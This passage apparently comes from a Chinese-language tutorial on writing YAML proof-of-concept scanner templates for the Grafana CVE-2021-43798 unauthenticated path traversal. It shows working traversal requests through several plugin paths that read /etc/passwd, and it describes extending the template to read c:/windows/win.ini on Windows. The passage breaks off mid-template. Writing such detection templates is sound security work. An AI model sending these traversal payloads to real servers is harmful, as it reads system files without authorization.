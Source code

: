 ```yaml
            cache: true
            method: GET
            path: /public/plugins/annolist..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r3:
        request:
            cache: true
            method: GET
            path: /public/plugins/grafana-azure-monitor-datasource..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r4:
        request:
            cache: true
            method: GET
            path: /public/plugins/barchart..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r5:
        request:
            cache: true
            method: GET
            path: /public/plugins/bargauge..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r6:
        request:
            cache: true
            method: GET
            path: /public/plugins/cloudwatch..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r7: 
      ....
expression: |
    r1() || r2() || r3() || r4() || r5() || r6() || r7() || r8() || r9() || r10() || r11() || r12() || r13() || r14() || r15() || r16() || r17() || r18() || r19() || r20() || r21() || r22() || r23() || r24() || r25() || r26() || r27() || r28() || r29() || r30() || r31() || r32() || r33() || r34() || r35() || r36() || r37() || r38() || r39() || r40()
detail:
    author: test
    links:
        - https://github.com/vulhub/vulhub/blob/master/grafana/CVE-2021-43798/README.zh-cn.md
```
#### 优化二
通过搜索我们可以知道，grafana可以安装在linux上，也可以安装在windows上，而对于windows，并没有`/etc/passwd`给我们读取，所以我们需要添加上针对windows的情况，windows我们可以读取：`c:/windows/win.ini`，我们可以匹配：`for 16-bit app support`
```yaml
name: poc-yaml-grafana-cve-2021-43798-unauth-fileread-test-3
manual: true
transport: http
rules:
    r0:
        request:
            cache: true
            method: GET
            path: /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r1:
        request:
```